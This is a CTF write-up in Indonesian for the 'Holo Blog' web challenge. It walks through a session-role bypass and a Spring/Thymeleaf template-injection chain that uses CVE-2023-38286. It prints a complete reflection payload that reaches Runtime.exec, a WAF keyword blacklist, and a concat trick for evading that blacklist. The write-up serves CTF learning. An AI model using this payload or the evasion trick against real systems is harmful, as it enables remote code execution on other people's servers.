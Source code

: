 # Holo Blog

|Category|Solves|
|--------|------|
|Web|0/12|

# Description
Just finished Hololep blog yesterday, can you check it for me?

# Overview

Pada challenge ini terdapat 2 vulnerability. Yang pertama adalah SSTI yang dapat kita lihat pada source code berikut

```java
public class Public {
    @GetMapping("/")
    String index(HttpSession session) throws Exception {
        String lang = (String) session.getAttribute("lang");
        return String.format("lang/%s/index", lang); // vulnerable to SSTI
    }
}
```
> [source code](https://github.com/dimasma0305/My-CTF-Challenges/blob/cffb36330020de892d3073a42d71bc6e50a8d23b/Hology-final-2023/Holo-Blog/src/src/main/java/com/blog/blog/controler/Public.java#L13)

Kita dapat merubah atribute "lang" dengan melakukan bypass "guest" pada kode berikut:

```java
    @PatchMapping("/lang")
    DefaultResponseFormat patchLang(@Valid @RequestBody(required = true) Lang data, HttpSession session)
            throws Exception {
        val defaultResponseFormat = new DefaultResponseFormat();
        val sessionId = session.getId();
        val user = new User();
        val role = user.getRole(sessionId);
        if ("guest".equals(role)) {
            throw new HttpClientErrorException(HttpStatus.UNAUTHORIZED, "Unauthorized");
        } else {
            session.setAttribute("lang", data.getLang());
            defaultResponseFormat.setMessage("ok");
        }
        return defaultResponseFormat;
    }
```
> [source code](https://github.com/dimasma0305/My-CTF-Challenges/blob/88ed381fead0fea20a2d0f5b45b657f88148b9c2/Hology-final-2023/Holo-Blog/src/src/main/java/com/blog/blog/controler/RestPublic.java#L34)

Kalian dapat melakukan bypass dengan cara membuat "role" menjadi null, ini bisa dilakukan dengan mengakses endpoint refresh:

```java
    @GetMapping("/refresh")
    RedirectView refresh(HttpSession session, HttpServletResponse response) throws SQLException {
        val redirectView = new RedirectView("/");
        val sessionId = session.getId();
        val user = new User();
        user.deleteUserByUserId(sessionId);
        response.setHeader("Set-Cookie", "JSESSIONID=null; Path=/; HttpOnly");
        return redirectView;
    }
```
> [source code](https://github.com/dimasma0305/My-CTF-Challenges/blob/88ed381fead0fea20a2d0f5b45b657f88148b9c2/Hology-final-2023/Holo-Blog/src/src/main/java/com/blog/blog/controler/RestPublic.java#L43)

Karna pada endpoint refresh melakukan delete pada user, maka program melakukan request ke database, maka username kita akan null.

## SSTI

Kita sudah dapat menkontrol atribute "lang", sekarang kita bisa melakukan SSTI spring view manipulation yang bisa kalian lihat penjelasannya pada artikel berikut: [link](https://github.com/veracode-research/spring-view-manipulation)

Tapi karna terdapat restriksi dari thymeleaf, kita harus membypass restriksi itu menggunakan [CVE-2023-38286](https://nvd.nist.gov/vuln/detail/CVE-2023-38286) yang POC-nya dapat kita lihat pada github repo berikut https://github.com/p1n93r/SpringBootAdmin-thymeleaf-SSTI .

Base Payload untuk melakukan exploit SSTI pada challenge ini dengan menggunakanas bypass tersebut kurang lebih seperti ini:

```java
getRuntimeMethod=''.getClass().forName('org.springframework.util.ReflectionUtils').findMethod(''.getClass().forName('org.springframework.util.ClassUtils').forName('java.lang.Runtime',''.getClass().forName('org.springframework.util.ClassUtils').getDefaultClassLoader()), 'getRuntime' )

runtimeObj=''.getClass().forName('org.springframework.util.ReflectionUtils').invokeMethod(getRuntimeMethod, null)

exeMethod=''.getClass().forName('org.springframework.util.ReflectionUtils').findMethod(''.getClass().forName('org.springframework.util.ClassUtils').forName('java.lang.Runtime',''.getClass().forName('org.springframework.util.ClassUtils').getDefaultClassLoader()), 'exec', ''.getClass())

finals=''.getClass().forName('org.springframework.util.ReflectionUtils').invokeMethod(exeMethod, runtimeObj, 'calc' )
```

Dikarenakan kita tidak bisa menggunakan `T()` seperti pada POC, kita menggantinya menggunakan `''.getClass().forName()`.

Jika digabungkan semua payload tersebut, maka final payload akan terlihat seperti berikut:

```java
__${''.getClass().forName('org.springframework.util.ReflectionUtils').invokeMethod(''.getClass().forName('org.springframework.util.ReflectionUtils').findMethod(''.getClass().forName('org.springframework.util.ClassUtils').forName('java.lang.Runtime',''.getClass().forName('org.springframework.util.ClassUtils').getDefaultClassLoader()), 'exec', ''.getClass()), ''.getClass().forName('org.springframework.util.ReflectionUtils').invokeMethod(''.getClass().forName('org.springframework.util.ReflectionUtils').findMethod(''.getClass().forName('org.springframework.util.ClassUtils').forName('java.lang.Runtime',''.getClass().forName('org.springframework.util.ClassUtils').getDefaultClassLoader()), 'getRuntime' ), null), 'calc' )}__
```

Sekarang kita perlu membypass WAF berikut ini:

```java
public class WAF {
    private static enum WafList {
        SSTI("\"", "+", "Runtime", "concat", "replace", "join", "format", "substring", "class", "java", "exec", "char",
                "Process", "cmd", "eval", "Char", "true", "false");

        @Getter
        private final String[] blacklist;

        WafList(String... blacklist) {
            this.blacklist = blacklist;
        }
    }
```

> [source code](https://github.com/dimasma0305/My-CTF-Challenges/blob/88ed381fead0fea20a2d0f5b45b657f88148b9c2/Hology-final-2023/Holo-Blog/src/src/main/java/com/blog/blog/waf/WAF.java#L6C1-L17C6)

Disini untuk melakukan bypass kita menggunakan concat untu mekonstruksi string yang bisa kita panggil seperti berikut:

```java
''.getClass().getMethods()[47].invoke(str1,str2)
```
> Note: concat tidak selalu berada di index ke 47, ini tergantung kode java dan juga versi java yang kita gunakan.

Untuk final payload bisa di lihat pada folder [./writeup](./writeup/)


# Reference
- https://github.com/p1n93r/SpringBootAdmin-thymeleaf-SSTI
- https://github.com/veracode-research/spring-view-manipulation
